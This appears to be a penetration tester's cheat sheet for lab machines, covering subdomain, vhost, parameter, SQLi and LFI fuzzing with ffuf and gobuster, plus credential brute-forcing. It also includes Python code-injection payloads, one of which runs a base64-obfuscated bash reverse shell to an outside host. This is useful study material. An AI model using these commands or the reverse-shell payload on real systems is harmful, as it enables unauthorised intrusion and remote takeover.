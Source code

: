 #### Fuzzing Subdomains & vhosts

```bash
gobuster dns -d $dom -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
python dome.py -m active -d $dom -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.$dom" -u http://$ip:8080
feroxbuster -k -u $url -x php -o vhost.feroxbuster -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
[Enter] -> c -f {number of search to cancel}
```

##### Fuzzing URL

An amazing resource is Cobalt's SSTI page.
```bash
# Copy request from burpsuite to file, search.req
# Insert FUZZ where you want to fuzz
ffuf -request search.req -request-proto http -w /opt/SecLists/Fuzzing/special-chars.txt
# Below for post
# ffuf -u http://editorial.htb/upload-cover -X POST -request request.txt -w ports.txt:FUZZ -fs 61
# If you wanted to match size of a particular response, you could add '-ms 0'
# Filtering by lines would be '--fl 34'
# Check for quick SQL injection, adding url-encoded ';#---, so '%27%3B%23---'
# Depends on the language being used, if Python, test string concatenation, such as adding "sup')%2B'dawg'"%23. The %23 is to comment out remaining command
&query=sup')%2Bprint('hi')%23
&query=sup')%2B__import__('os').system('id')%23
&query=sup')%2B__import__('os').system('echo%20-n%20YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC84MCAwPiYxICcK%20|base64%20-d|bash')%23
```

#### Fuzzing URL

```bash
# Multiple paramaters
ffuf -request search.req -request-proto http -w emails.txt:USER -w ../../passwords.txt:PASS

# Fuzzing directly in URL, in this case, testing for parameters.
ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt
ffuf -k -u https://streamio.htb/admin/?FUZZ=1 -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# If you need to be authorized/logged in
ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=k2285854j74rk51pctgl7kes34'

# SQLi
ffuf -request sql.req -request-proto http -w ~/repos/offsec/lists/sqli.txt:FUZZ

# LFI
ffuf -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u $url/?page=FUZZ
```
